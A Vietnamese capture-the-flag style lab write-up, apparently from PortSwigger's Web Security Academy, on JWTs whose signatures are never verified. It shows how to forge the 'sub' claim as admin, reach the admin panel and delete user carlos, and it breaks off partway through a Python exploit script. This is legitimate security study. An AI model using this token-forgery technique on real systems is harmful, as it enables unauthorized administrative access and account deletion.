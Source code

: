 Chấp nhận chữ ký tùy ý
Thư viện JWT thường cung cấp một phương thức để xác minh mã thông báo và một phương thức khác chỉ giải mã chúng. Ví dụ: thư viện Node.js jsonwebtokencó ```verify()``` và ```decode()```.

Đôi khi, các nhà phát triển nhầm lẫn hai phương thức này và chỉ chuyển mã thông báo đến cho ```decode()``` phương thức đó. Điều này có nghĩa là ứng dụng hoàn toàn không xác minh chữ ký.

- Login với thông tin account được cung cấp, ta thấy server trả về JWT

![image](https://hackmd.io/_uploads/SkYp6MgTT.png)
 
đưa giá trị đó lên jwt.io mình được phần payload có chứa tên người dùng là wiener và thời gian expire

![image](https://hackmd.io/_uploads/BkqeJ7gTT.png)

vì phòng thí nghiệm không kiểm tra xác thực thong phần chữ ký mà chỉ dùng hàm decode() nên chúng ta có thể tấn công thay đổi giá trị trong phần payload này 

### Khai thác

Mở bằng JWT Editor của burp, và thử chính giá trị của trường sub thành admin

![image](https://hackmd.io/_uploads/Byx6ZXlTa.png)


với extension JSON Wb Token mình làm tương tự cũng được trang admin panel

![image](https://hackmd.io/_uploads/SkrBbQxa6.png)

mình sau đó thay đổi lại cookie và access đến ```/admin/delete/?username=carlos```

![image](https://hackmd.io/_uploads/r1uRGmlap.png)


và thành công solve được lab này

![image](https://hackmd.io/_uploads/rkHeQXxpa.png)

mình đã viết lại script khai thác
```python!
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote
import jwt
import base64


session = requests.Session()
url = 'https://0a58002804fceecf80303aa1006500c5.web-security-academy.net'

response = session.get(url + '/login')

soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name': 'csrf'})['value']

data = {
    'csrf': csrf,
    'username': 'wiener',
    'password': 'peter',
}

response = session.post(
    url + '/login',
```